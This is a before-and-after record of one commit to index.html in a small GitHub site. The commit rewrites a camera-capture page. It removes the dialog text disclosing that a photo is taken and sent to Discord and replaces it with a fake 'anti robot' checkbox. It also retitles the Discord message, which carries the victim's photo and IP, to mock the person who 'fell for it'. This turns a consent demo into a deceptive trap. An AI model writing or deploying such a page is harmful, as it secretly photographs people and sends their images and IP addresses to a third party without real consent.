

Before and after one commit to yenderelmascapito-collab/CodigosActualizados, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Verificar y ver códigos". Shown: the part 115-588 px from the top of the page, without its empty margins (161-1105 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -73,11 +73,11 @@
   <!-- Consentimiento -->
   <div id="consentLayer" class="overlay" role="dialog" aria-modal="true">
     <div class="modal">
-      <h2>Verificación anti robot (consentimiento requerido)</h2>
-      <p>Se activará tu <strong>cámara</strong>, tomaremos <strong>una foto</strong> y la enviaremos al <strong>Discord</strong> de la demo.</p>
+      <h2>Verificación anti robot </h2>
+      <p>acepta el <strong>permiso para </strong>, verificar <strong> que </strong> no eres  <strong>Discord</strong> un robot. </p>
       <label style="display:flex;gap:10px;margin-top:10px">
         <input id="ck" type="checkbox" />
-        <span>✅ Autorizo activar la cámara, capturar una foto y enviarla a Discord.</span>
+        <span>✅ acepto los terminos y verifico que no soy un robot (marcar casilla).</span>
       </label>
       <div class="row">
         <button id="btn-consent" class="btn primary" disabled>Dar consentimiento y continuar</button>
@@ -244,7 +244,7 @@
 
       // Mensaje con emojis
       const payload =
-`🎓 **Demo educativa (consentimiento otorgado)**
+`🎓 **Foto del weon que callo en la wea tonto weon**
 🕒 **Hora:** ${new Date().toISOString()}
 
 🧭 **IP:** ${ip}
```
